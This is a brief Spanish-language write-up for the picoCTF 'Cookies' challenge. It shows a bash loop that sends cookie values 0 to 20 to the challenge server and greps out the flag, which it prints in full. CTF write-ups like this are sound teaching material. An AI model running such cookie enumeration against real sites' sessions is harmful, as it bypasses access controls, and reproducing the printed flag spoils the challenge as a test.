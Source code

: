 ## Objetivo

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)
## Solución
```
┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s  http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep pico 

            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
                                                                                  
┌──(kali㉿kali)-[~]
└─$ 
```


## Notas adicionales
Se puede editar la cookie desde la pagina o mediante la terminal.
Haremos un for del 0 al 20 para que recorra todas las cookie con el grep le pedimos que nos muestre 

## Referencias